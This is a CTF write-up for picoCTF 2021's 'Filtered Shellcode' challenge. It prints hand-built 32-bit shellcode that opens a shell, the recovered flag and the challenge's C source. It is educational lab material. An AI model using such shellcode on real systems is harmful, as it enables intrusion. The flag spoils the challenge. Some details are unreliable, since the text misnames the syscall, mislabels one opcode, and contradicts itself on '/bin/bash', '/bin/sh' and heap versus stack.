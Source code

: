 ```yaml
---
layout: post
title:  "Filtered Shellcode - Pwn"
date:   2021-03-31 12:28:05 +0100
categories: writeups
---
```


```
Challenge: Filtered Shellcode
Author: Tiugi
Description: Shellcode with limited length instructions
CTF: picoCTF2021
Category: Pwn
```


The challenge seems to offer the possibility to execute arbitrary code, but like the title says there is some kind of filter.
First I recover some data from the ELF:

FILE OUTPUT:

fun: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=325e35378982f451f374c7140c5249bb1c52ab18, not stripped

CHECKSEC OUTPUT:

Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments


Then I started the reversing phase using Ghidra to see the disassembled and decompiled version of the ELF.
There are two interesting functions:

main

![main function](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/filtered_shellcode_main.png?raw=true)


execute

![execute function](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/filtered_shellcode_execute.png?raw=true)


The main receives from the user at most 1000 bytes, stopping when receiving a '\n' ("\x0a"), that it passes our input to the execute function which allocate a buffer on the heap with a size two times bigger than payload and fills the newly created buffer following a simple procedure: it takes two bytes from our input, than it puts two '\x90' (nop opcode), then two bytes from our input, and so on until it used all our "code". It then closes the buffer with a '\xc3' (ret opcode). Finally it puts the content of this buffer inside a memory area with execute permission and run the code inside it.

The program indeed execute the code that we give to it, but every instruction with a length greater than 2 will be divided with nops, becoming corrupted.
We must build a shellcode with instructions divided in groups of two bytes, so the first thing is not use the mov instruction with immediate values because is at least 3 bytes long, replacing it with an intelligent use of push and pop.
To open a shell, we can use the syscall to execle which needes: (don't forget that we have a 32-bit ELF)

eax = 0xb                              # EXECLE SYSCALL ID CODE
ebx = POINTER TO THE STRING "/bin/sh"  # THE INSTRUCTION TO BE EXECUTED
ecx = 0
edx = 0


For "eax" we can do:

 6a 4f   push 0xb
 58      pop eax     # two groups of two bytes
 90      nop


For "ecx" and "edx" we can do:

 31 c9   xor ecx,ecx
 89 ca   mov edx,ecx


For "ebx" we have to realize a thing: our original buffer is still on the stack during the execution of our shellcode, so we can put the string "/bin/bash" in the end of the payload and find the offset from the esp (Stack Pointer).
After some "try and error" I built the following payload:

0:  89 e3                   mov    ebx,esp
2:  6a 60                   push   0x60
4:  59                      pop    ecx
5:  90                      nop
6:  01 cb                   add    ebx,ecx
8:  6a 4f                   push   0x4f
a:  59                      pop    ecx
b:  90                      nop
c:  01 cb                   add    ebx,ecx
e:  6a 0b                   push   0xb
10: 58                      pop    eax
11: 90                      nop
12: 31 c9                   xor    ecx,ecx
14: 89 ca                   mov    edx,ecx
16: cd 80                   int    0x80
    /bin/sh\x00

Using a python script I interacted with the remote service and successfully opened a shell. From there a simple "cat flag.txt" was all we need to retrieve the flag:

picoCTF{th4t_w4s_fun_f1ed6f7952ff4071}



Side Note:

With the remote shell I was able to retrieve the original C code of the challenge:

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
    if (!shellcode || !length) {
        exit(1);
    }
    size_t new_length = length * 2;
    char result[new_length + 1];

    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) {
            result[i] = shellcode[spot++];
        } else {
            result[i] = '\x90';
        }
    }
    // result[new_length] = '\xcc';
    result[new_length] = '\xc3';

    // Execute code
    int (*code)() = (int(*)())result;
    code();
}

int main(int argc, char *argv[]) {
    setbuf(stdout, NULL);
    char buf[MAX_LENGTH];
    size_t length = 0;
    char c = '\0';

    printf("Give me code to run:\n");
    c = fgetc(stdin);
    while ((c != '\n') && (length < MAX_LENGTH)) {
        buf[length] = c;
        c = fgetc(stdin);
        length++;
    }
    if (length % 2) {
        buf[length] = '\x90';
        length++;
    }
    execute(buf, length);
    return 0;
}
{% endhighlight %}

